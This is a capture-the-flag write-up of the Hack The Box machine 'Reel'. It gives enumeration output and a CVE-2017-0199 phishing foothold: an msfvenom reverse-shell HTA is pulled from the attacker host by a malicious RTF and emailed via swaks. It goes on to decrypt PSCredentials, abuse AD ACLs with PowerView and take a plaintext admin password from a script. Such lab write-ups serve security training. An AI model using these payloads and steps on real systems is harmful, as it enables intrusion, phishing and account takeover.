


# Reel
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.77 -T4                                                                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 18:39 BST
Nmap scan report for 10.10.10.77 (10.10.10.77)
Host is up (0.093s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
49159/tcp open  unknown
```
```
└─$ nmap -Pn -p21,22,25,135,139,445,593 -sC -sV 10.10.10.77 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 18:43 BST
Stats: 0:03:29 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.90% done; ETC: 18:46 (0:00:00 remaining)
Nmap scan report for 10.10.10.77 (10.10.10.77)
Host is up (0.14s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-29-18  12:19AM       <DIR>          documents
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp  open  ssh         OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
25/tcp  open  smtp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe: 
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions: 
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|     sequence of commands
|   TerminalServerCookie: 
|     220 Mail Service ready
|_    sequence of commands
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
135/tcp open  msrpc       Microsoft Windows RPC
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp open             Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: HTB)
593/tcp open  ncacn_http  Microsoft Windows RPC over HTTP 1.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.94%I=7%D=9/13%Time=6501F4AB%P=x86_64-pc-linux-gnu%r(NULL
SF:,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20S
SF:ervice\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")%
SF:r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20EH
SF:LO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n"
SF:)%r(GenericLines,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x20s
SF:equence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r
SF:\n")%r(GetRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x20
SF:sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\
SF:r\n")%r(HTTPOptions,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad\x
SF:20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20command
SF:s\r\n")%r(RTSPRequest,54,"220\x20Mail\x20Service\x20ready\r\n503\x20Bad
SF:\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comma
SF:nds\r\n")%r(RPCCheck,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNSVer
SF:sionBindReqTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(DNSStatusReq
SF:uestTCP,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SSLSessionReq,18,"2
SF:20\x20Mail\x20Service\x20ready\r\n")%r(TerminalServerCookie,36,"220\x20
SF:Mail\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20commands\r\
SF:n")%r(TLSSessionReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Kerbero
SF:s,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SMBProgNeg,18,"220\x20Mai
SF:l\x20Service\x20ready\r\n")%r(X11Probe,18,"220\x20Mail\x20Service\x20re
SF:ady\r\n")%r(FourOhFourRequest,54,"220\x20Mail\x20Service\x20ready\r\n50
SF:3\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\
SF:x20commands\r\n")%r(LPDString,18,"220\x20Mail\x20Service\x20ready\r\n")
SF:%r(LDAPSearchReq,18,"220\x20Mail\x20Service\x20ready\r\n")%r(LDAPBindRe
SF:q,18,"220\x20Mail\x20Service\x20ready\r\n")%r(SIPOptions,162,"220\x20Ma
SF:il\x20Service\x20ready\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n5
SF:03\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of
SF:\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\
SF:x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20comman
SF:ds\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequenc
SF:e\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n503\
SF:x20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x2
SF:0commands\r\n");
Service Info: Host: REEL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: REEL
|   NetBIOS computer name: REEL\x00
|   Domain name: HTB.LOCAL
|   Forest name: HTB.LOCAL
|   FQDN: REEL.HTB.LOCAL
|_  System time: 2023-09-13T18:45:17+01:00
| smb2-time: 
|   date: 2023-09-13T17:45:18
|_  start_date: 2023-09-13T17:37:37
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled and required
|_clock-skew: mean: -20m36s, deviation: 34m36s, median: -38s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.37 seconds

```
- `smb`
```
└─$ smbclient -N -L //10.10.10.77
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.77 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- `ftp`
```
└─$ ftp anonymous@10.10.10.77  
Connected to 10.10.10.77.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||41001|)
125 Data connection already open; Transfer starting.
05-29-18  12:19AM       <DIR>          documents
226 Transfer complete.
ftp> cd Documents
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||41002|)
125 Data connection already open; Transfer starting.
05-29-18  12:19AM                 2047 AppLocker.docx
05-28-18  02:01PM                  124 readme.txt
10-31-17  10:13PM                14581 Windows Event Forwarding.docx
ftp> prompt
Interactive mode off.
ftp> mget *
...
```
```
└─$ cat readme.txt                                                         
please email me any rtf format procedures - I'll review and convert.

new format / converted documents will be saved here.
```
```
└─$ exiftool *.docx                                                        
======== AppLocker.docx
ExifTool Version Number         : 12.64
File Name                       : AppLocker.docx
Directory                       : .
File Size                       : 2.0 kB
File Modification Date/Time     : 2018:05:29 00:19:48+01:00
File Access Date/Time           : 2023:09:13 18:49:30+01:00
File Inode Change Date/Time     : 2023:09:13 18:49:30+01:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0008
Zip Compression                 : Deflated
Zip Modify Date                 : 2018:05:29 00:19:50
Zip CRC                         : 0x3cdd8b4f
Zip Compressed Size             : 166
Zip Uncompressed Size           : 284
Zip File Name                   : _rels/.rels
======== Windows Event Forwarding.docx
ExifTool Version Number         : 12.64
File Name                       : Windows Event Forwarding.docx
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2017:10:31 21:13:23+00:00
File Access Date/Time           : 2023:09:13 18:49:32+01:00
File Inode Change Date/Time     : 2023:09:13 18:49:32+01:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x82872409
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
Revision Number                 : 4
Create Date                     : 2017:10:31 18:42:00Z
Modify Date                     : 2017:10:31 18:51:00Z
Template                        : Normal.dotm
Total Edit Time                 : 5 minutes
Pages                           : 2
Words                           : 299
Characters                      : 1709
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 14
Paragraphs                      : 4
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : 
Links Up To Date                : No
Characters With Spaces          : 2004
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
    2 image files read
```


- `smtp`
  - We can do it via `nmap`
  - Or `smtp-user-enum`
```
└─$ nmap -Pn --script smtp-enum* -p25 10.10.10.77
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 18:51 BST
Nmap scan report for 10.10.10.77 (10.10.10.77)
Host is up (0.092s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   root
|   admin
|   administrator
|   webadmin
|   sysadmin
|   netadmin
|   guest
|   user
|   web
|_  test

```

## Foothold
- We saw a note with stating that we can send email any `rtf` format procedures which will be reviewed
  - https://nvd.nist.gov/vuln/detail/CVE-2017-0199
  - [PoC](https://www.exploit-db.com/exploits/41894) or [Github one]()https://github.com/bhdresh/CVE-2017-0199
  - We have  to generate a malicious `RTF` file
    - So when opened in vulnerable versions of Microsoft Word it will lead to code execution. 
    - The flaw exists in how a `olelink` object makes a http(s) request, and execute `hta` code in response.
  - Let's generate `hta` file
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=6666 -f hta-psh -o payload.hta`
```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=6666 -f hta-psh -o payload.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7385 bytes
Saved as: payload.hta
```

- Now we need `RTF` file
```
└─$ python2.7 cve-2017-0199_toolkit.py -M gen -w document.rtf -u http://10.10.16.9/payload.hta -t rtf -x 0
Generating normal RTF payload.

Generated document.rtf successfully
```

- Let's send email
  - `swaks --to nico@megabank.com --from pentest@megabank.com --header "Subject: Document Review" --body 'Sending the document for review before sending it to the clients.' --server 10.10.10.77 --attach document.rtf `


- After few minutes, we have a connection



## User #1
- `whoami`
```
C:\Windows\system32>whoami
whoami
htb\nico

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Windows\system32>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users          Alias            S-1-5-32-558                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Group used for deny only                          
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
HTB\AppLocker_Test                         Group            S-1-5-21-2648318136-3688571242-2924127574-1138 Mandatory group, Enabled by default, Enabled group
HTB\MegaBank_Users                         Group            S-1-5-21-2648318136-3688571242-2924127574-1604 Mandatory group, Enabled by default, Enabled group
HTB\DR_Site                                Group            S-1-5-21-2648318136-3688571242-2924127574-1143 Mandatory group, Enabled by default, Enabled group
HTB\HelpDesk_Admins                        Group            S-1-5-21-2648318136-3688571242-2924127574-1145 Mandatory group, Enabled by default, Enabled group
HTB\Restrictions                           Group            S-1-5-21-2648318136-3688571242-2924127574-1146 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192    
```

- We have a `cred.xml` file in `Desktop`
```
c:\Users\nico>dir Desktop
dir Desktop
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of c:\Users\nico\Desktop

28/05/2018  21:07    <DIR>          .
28/05/2018  21:07    <DIR>          ..
28/10/2017  00:59             1,468 cred.xml
14/09/2023  17:05                34 user.txt
               2 File(s)          1,502 bytes
               2 Dir(s)   4,980,654,080 bytes free

c:\Users\nico>type desktop\cred.xml
type desktop\cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>

```

- It's `PSCredential` and we can read it using `Import-CliXml`
  - `https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#secure-string-to-plaintext`
```
PS c:\Users\nico> $cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

- Let's try `ssh` to box using the new creds
```
└─$ ssh tom@10.10.10.77
tom@10.10.10.77's password: 
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

tom@REEL C:\Users\tom>      
```
## User #2
- `tom`'s desktop contains `AD Audit` folder with a note

```
tom@REEL C:\Users\tom\Desktop\AD Audit>dir                                                                                      
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CEBA-B613                                                                                              

 Directory of C:\Users\tom\Desktop\AD Audit                                                                                     

05/29/2018  09:02 PM    <DIR>          .                                                                                        
05/29/2018  09:02 PM    <DIR>          ..                                                                                       
05/30/2018  12:44 AM    <DIR>          BloodHound                                                                               
05/29/2018  09:02 PM               182 note.txt                                                                                 
               1 File(s)            182 bytes                                                                                   
               3 Dir(s)   4,979,994,624 bytes free                                                                              

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt                                                                            
Findings:                                                                                                                       

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                                  

Maybe we should re-run Cypher query against other groups we've created.                                                         
tom@REEL C:\Users\tom\Desktop\AD Audit>             
```

- We also have AD audit tools
  - And `acls.csv` file
```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>dir                                                                           
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CEBA-B613                                                                                              

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound                                                                          

05/30/2018  12:44 AM    <DIR>          .                                                                                        
05/30/2018  12:44 AM    <DIR>          ..                                                                                       
05/29/2018  08:57 PM    <DIR>          Ingestors                                                                                
10/30/2017  11:15 PM           769,587 PowerView.ps1                                                                            
               1 File(s)        769,587 bytes                                                                                   
               3 Dir(s)   4,979,994,624 bytes free                                                                              

tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>dir Ingestors                                                                 
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CEBA-B613                                                                                              

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors                                                                

05/29/2018  08:57 PM    <DIR>          .                                                                                        
05/29/2018  08:57 PM    <DIR>          ..                                                                                       
11/17/2017  12:50 AM           112,225 acls.csv                                                                                 
10/28/2017  09:50 PM             3,549 BloodHound.bin                                                                           
10/24/2017  04:27 PM           246,489 BloodHound_Old.ps1                                                                       
10/24/2017  04:27 PM           568,832 SharpHound.exe                                                                           
10/24/2017  04:27 PM           636,959 SharpHound.ps1                                                                           
               5 File(s)      1,568,054 bytes                                                                                   
               2 Dir(s)   4,979,994,624 bytes free
```

- We can't run `Sharphound`
```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>.\SharpHound.exe -c All                                             
This program is blocked by group policy. For more information, contact your system administrator.
```

- So let's download the `acls.csv`
```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.10.16.9\share                                    
        1 file(s) copied.                                                                                                       
```



- `tom` has `WriteOwner` over `claire`
  - `claire` has `WriteDacl` over `Backup_Admins`
  - So let's get `claire`
    - https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writeowner


- Let's change the owner `claire` and then reset her password
```
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\Powerview.ps1                                                      
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom                          
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -force                     
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred   
```

```
└─$ ssh claire@10.10.10.77   
claire@10.10.10.77's password:
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

claire@REEL C:\Users\claire> 
```
## User #3
- Now as a `claire` we can add ourselves to `Backup_Admins` group due to `WriteDacl` 
  - https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl
```
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

claire@REEL C:\Users\claire>net group backup_admins                                                                             
Group name     Backup_Admins                                                                                                    
Comment                                                                                                                         

Members                                                                                                                         

-------------------------------------------------------------------------------                                                 
ranj                                                                                                                            
The command completed successfully.                                                                                             


claire@REEL C:\Users\claire>net group backup_admins claire /add                                                                 
The command completed successfully.                                                                                             


claire@REEL C:\Users\claire>net group backup_admins                                                                             
Group name     Backup_Admins                                                                                                    
Comment                                                                                                                         

Members                                                                                                                         

-------------------------------------------------------------------------------                                                 
claire                   ranj                                                                                                   
The command completed successfully.                                                                                             


claire@REEL C:\Users\claire>     
```

## Root
- Permissions over `Administrator` folder
```
claire@REEL c:\Users>icacls Administrator                                                                                       
Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)                                                                                   
              HTB\Backup_Admins:(OI)(CI)(F)                                                                                     
              HTB\Administrator:(OI)(CI)(F)                                                                                     
              BUILTIN\Administrators:(OI)(CI)(F)                                                                                

Successfully processed 1 files; Failed processing 0 files    
```

- But we can't read the flag
```
claire@REEL c:\Users\Administrator>dir Desktop                                                                                  
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CEBA-B613                                                                                              

 Directory of c:\Users\Administrator\Desktop                                                                                    

01/21/2018  03:56 PM    <DIR>          .                                                                                        
01/21/2018  03:56 PM    <DIR>          ..                                                                                       
11/02/2017  10:47 PM    <DIR>          Backup Scripts                                                                           
09/14/2023  05:05 PM                34 root.txt                                                                                 
               1 File(s)             34 bytes                                                                                   
               3 Dir(s)   4,978,888,704 bytes free                                                                                                                                                                  

claire@REEL c:\Users\Administrator>type Desktop\root.txt                                                                        
Access is denied.                                                                                                               

```

- Content of `Backup Scripts` folder
```
claire@REEL c:\Users\Administrator\Desktop\Backup Scripts>dir                                                                   
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CEBA-B613                                                                                              

 Directory of c:\Users\Administrator\Desktop\Backup Scripts                                                                     

11/02/2017  10:47 PM    <DIR>          .                                                                                        
11/02/2017  10:47 PM    <DIR>          ..                                                                                       
11/04/2017  12:22 AM               845 backup.ps1                                                                               
11/02/2017  10:37 PM               462 backup1.ps1                                                                              
11/04/2017  12:21 AM             5,642 BackupScript.ps1                                                                         
11/02/2017  10:43 PM             2,791 BackupScript.zip                                                                         
11/04/2017  12:22 AM             1,855 folders-system-state.txt                                                                 
11/04/2017  12:22 AM               308 test2.ps1.txt                                                                            
               6 File(s)         11,903 bytes                                                                                   
               2 Dir(s)   4,978,888,704 bytes free  
```

- We have creds in one of the scripts
```
claire@REEL c:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1                                                 
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"                                                                                                    

#Variables, only Change here                                                                                                    
$Destination="\\BACKUP03\BACKUP" #Copy the Files to this Location                                                               
$Versions="50" #How many of the last Backups you want to keep                                                                   
$BackupDirs="C:\Program Files\Microsoft\Exchange Server" #What Folders you want to backup                                       
$Log="Log.txt" #Log Name                                                                                                        
$LoggingLevel="1" #LoggingLevel only for Output in Powershell Window, 1=smart, 3=Heavy                                          

#STOP-no changes from here                                                                                                      
#STOP-no changes from here                                                                                                      
#Settings - do not change anything from here                                                                                    
$Backupdir=$Destination +"\Backup-"+ (Get-Date -format yyyy-MM-dd)+"-"+(Get-Random -Maximum 100000)+"\"                         
$Items=0                                                                                                                        
$Count=0                                                                                                                        
$ErrorCount=0                                                                                                                   
$StartDate=Get-Date #-format dd.MM.yyyy-HH:mm:ss                                                                                
...
```

- Let's `ssh`
  - `Administrator:Cr4ckMeIfYouC4n!`
```
└─$ ssh administrator@10.10.10.77         
administrator@10.10.10.77's password: 
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

administrator@REEL C:\Users\Administrator> 
```